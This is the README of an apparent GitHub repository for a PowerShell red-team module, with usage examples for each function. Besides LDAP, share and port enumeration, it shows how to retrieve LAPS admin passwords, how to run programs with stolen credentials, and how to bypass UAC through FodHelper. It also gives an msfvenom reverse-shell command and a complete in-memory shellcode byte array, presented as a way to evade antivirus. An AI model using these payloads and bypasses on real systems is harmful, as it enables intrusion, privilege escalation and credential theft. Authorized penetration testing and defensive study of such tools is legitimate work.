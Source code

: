 # PowerShell-Red-Team-Enum
Collection of PowerShell functions a Red Teamer may use to collect data from a machine or gain access to a target. I added ps1 files for the commands that are included in the RedTeamEnum module. This will allow you to easily find and use only one command if that is all you want. If you want the entire module perform the following actions after downloading the RedTeamEnum directory and contents to your device.
```powershell
C:\PS> robocopy .\RedTeamEnum $env:USERPROFILE\Documents\WindowsPowerShell\Modules\RedTeamEnum *
# This will copy the module to a location that allows you to easily import it. If you are using OneDrive sync you may need to use $env:USERPROFILE\OneDrive\Documents\WindowsPowerShell\Modules\RedTeamEnum instead.

C:\PS> Import-Module -Name RedTeamEnum -Verbose
# This will import all the commands in the module. 

C:\PS> Get-Command -Module RedTeamEnum
# This will list all the commands in the module.
```

- Convert-Base64.psm1 is a function as the name states for encoding and/or decoding text into Base64 format.
```powershell
C:\PS> Convert-Base64 -Value "Convert me to base64!" -Encode

C:\PS> Convert-Base64 -Value "Q29udmVydCBtZSB0byBiYXNlNjQh" -Decode
```

- Convert-SID.ps1 is a function that converts SID values to usernames and usernames to SID values
```powershell
C:\PS> Convert-SID -Username tobor
# The above example converts tobor its SID value

C:\PS> Convert-SID -SID S-1-5-21-2860287465-2011404039-792856344-500
# The above value converts the SID value to its associated username
```

- Get-LdapInfo is a function I am very proud of for performing general LDAP queries. Although only two properties will show in the output, all of the properties associated with object can be seen by piping to Select-Object -Property * or using the -Detailed switch parameter.
```powershell
C:\PS> Get-LdapInfo -Detailed -SPNNamedObjects
# The above returns all the properties of the returned objects
#
C:\PS> Get-LdapInfo -DomainControllers | Select-Object -Property 'Name','ms-Mcs-AdmPwd'
# If this is run as admin it will return the LAPS password for the local admin account
#
C:\PS> Get-LdapInfo -ListUsers | Where-Object -Property SamAccountName -like "user.samname"
# NOTE: If you include the "-Detailed" switch and pipe the output to where-object it will not return any properties. If you wish to display all the properties of your result it will need to be carried out using the below format
#
C:\PS> Get-LdapInfo -AllServers | Where-Object -Property LogonCount -gt 1 | Select-Object -Property * 
 
```

- Get-NetworkShareInfo is a cmdlet that is used to retrieve information and/or brute force discover network shares available on a remote or local machine
```powershell
C:\PS> Get-NetworkShareInfo -ShareName C$
# The above example returns information on the share C$ on the local machine
#RESULTS
Name         : C$
InstallDate  :
Description  : Default share
Path         : C:\
ComputerName : TOBORDESKTOP
Status       : OK

C:\PS> Get-NetworkShareInfo -ShareName NETLOGON,SYSVOL,C$ -ComputerName DC01.domain.com, DC02.domain.com, 10.10.10.1
# The above example disocvers and returns information on NETLOGON, SYSVOL, and C$ on the 3 remote devices DC01, DC02, and 10.10.10.1
```

- Test-PrivEsc is a function that can be used for finding whether WSUS updates over HTTP are vulnerable to PrivEsc, Clear Text credentials are stored in common places,  AlwaysInstallElevated is vulnerable to PrivEsc, Unquoted Service Paths exist, and enum of possible weak write permissions for services.
```powershell
 C:\PS> Test-PrivEsc
```

- Get-InitialEnum is a function for enumerating the basics of a Windows Operating System to help better display possible weaknesses.
```powershell
 C:\PS> Get-InitialEnum
```

- Start-SimpleHTTPServer is a function used to host an HTTP server for downloading files. It is meant to be similart to pythons SimpleHTTPServer module. Directories are not traversable through the web server. The files that will be hosted for download will be from the current directory you are in when issuing this command.
```powershell
C:\PS> Start-SimpleHTTPServer
Open HTTP Server on port 8000

#OR
C:\PS> Start-SimpleHTTPServer -Port 80
# Open HTTP Server on port 80
```

- Invoke-PortScan.ps1 is a function for scanning all possible TCP ports on a target. I will improve in future by including UDP as well as the ability to define a port range. This one is honestly not even worth using because it is very slow. Threading is a weak area of mine and I plan to work on that with this one.
```powershell
 C:\PS> Invoke-PortScan -IpAddress 192.168.0.1
```

- Invoke-PingSweep is a function used for performing a ping sweep of a subnet range. 
```powershell
Invoke-PingSweep -Subnet 192.168.1.0 -Start 192 -End 224 -Source Singular
# NOTE: The source parameter only works if IP Source Routing value is "Yes"

Invoke-PingSweep -Subnet 10.0.0.0 -Start 1 -End 20 -Count 2
# Default value for count is 1

Invoke-PingSweep -Subnet 172.16.0.0 -Start 64 -End 128 -Count 3 -Source Multiple
```

- Invoke-UseCreds is a function I created to simplify the process of using obtained credentials during a pen test. I use -Passwd instead of -Password because that parameter when defined should be configured as a secure string which is not the case when entering a value into that filed with this function. It gets converted to a secure string after you set that value.
```powershell
# The below command will use the entered credentials to open the msf.exe executable as the user tobor
Invoke-UseCreds -Username 'OsbornePro\tobor' -Passwd 'P@ssw0rd1' -Path .\msf.exe -Verbose
```

- Invoke-FodHelperBypass is a function that tests whether or not the UAC bypass will work before executing it to elevate priviledges. This of course needs to be run by a member of the local administrators group as this bypass elevates the priviledges of the shell you are in. You can define the program to run which will allow you to execute generaate msfvenom payloads as well as cmd or powershell or just issuing commands.
```powershell
Invoke-FodHelperBypass -Program "powershell" -Verbose
# OR 
Invoke-FodHelperBypass -Program "cmd /c msf.exe" -Verbose
```

- Invoke-InMemoryPayload is used for AV Evasion using an In-Memory injection. This will require the runner to generate an msfvenom payload using a command similar to the example below, and entering the "[Byte[]] $buf" variable into Invoke-InMemoryPayloads "ShellCode" parameter.
```bash
# Generate payload to use
msfvenom -p windows/meterpreter/shell_reverse_tcp LHOST=192.168.137.129 LPORT=1337 -f powershell
```
Start a listener, use that value in the "ShellCode" parameter, and run the command to gain your shell. This will also require certain memory protections to not be enabled. 
__NOTE:__ Take note there are __NOT ANY DOUBLE QUOTES__ around the ShellCode variables value. This is because it is expecting a byte array.
```powershell
Invoke-InMemoryPayload -Payload 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x0,0x0,0x0,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0xf,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x1,0xd0,0x8b,0x80,0x88,0x0,0x0,0x0,0x48,0x85,0xc0,0x74,0x67,0x48,0x1,0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x1,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x1,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x3,0x4c,0x24,0x8,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x1,0xd0,0x66,0x41,0x8b,0xc,0x48,0x44,0x8b,0x40,0x1c,0x49,0x1,0xd0,0x41,0x8b,0x4,0x88,0x48,0x1,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,0x32,0x0,0x0,0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,0x1,0x0,0x0,0x49,0x89,0xe5,0x49,0xbc,0x2,0x0,0x5,0x39,0xc0,0xa8,0x89,0x81,0x41,0x54,0x49,0x89,0xe4,0x4c,0x89,0xf1,0x41,0xba,0x4c,0x77,0x26,0x7,0xff,0xd5,0x4c,0x89,0xea,0x68,0x1,0x1,0x0,0x0,0x59,0x41,0xba,0x29,0x80,0x6b,0x0,0xff,0xd5,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,0x48,0x89,0xc2,0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,0xf,0xdf,0xe0,0xff,0xd5,0x48,0x89,0xc7,0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba,0x99,0xa5,0x74,0x61,0xff,0xd5,0x48,0x81,0xc4,0x40,0x2,0x0,0x0,0x49,0xb8,0x63,0x6d,0x64,0x0,0x0,0x0,0x0,0x0,0x41,0x50,0x41,0x50,0x48,0x89,0xe2,0x57,0x57,0x57,0x4d,0x31,0xc0,0x6a,0xd,0x59,0x41,0x50,0xe2,0xfc,0x66,0xc7,0x44,0x24,0x54,0x1,0x1,0x48,0x8d,0x44,0x24,0x18,0xc6,0x0,0x68,0x48,0x89,0xe6,0x56,0x50,0x41,0x50,0x41,0x50,0x41,0x50,0x49,0xff,0xc0,0x41,0x50,0x49,0xff,0xc8,0x4d,0x89,0xc1,0x4c,0x89,0xc1,0x41,0xba,0x79,0xcc,0x3f,0x86,0xff,0xd5,0x48,0x31,0xd2,0x48,0xff,0xca,0x8b,0xe,0x41,0xba,0x8,0x87,0x1d,0x60,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,0x6,0x7c,0xa,0x80,0xfb,0xe0,0x75,0x5,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x0,0x59,0x41,0x89,0xda,0xff,0xd5 -Verbose
```
![Invoke-InMemoryPayload Image](https://raw.githubusercontent.com/tobor88/PowerShell-Red-Team/master/InvokeInMemPayloadImg.png)

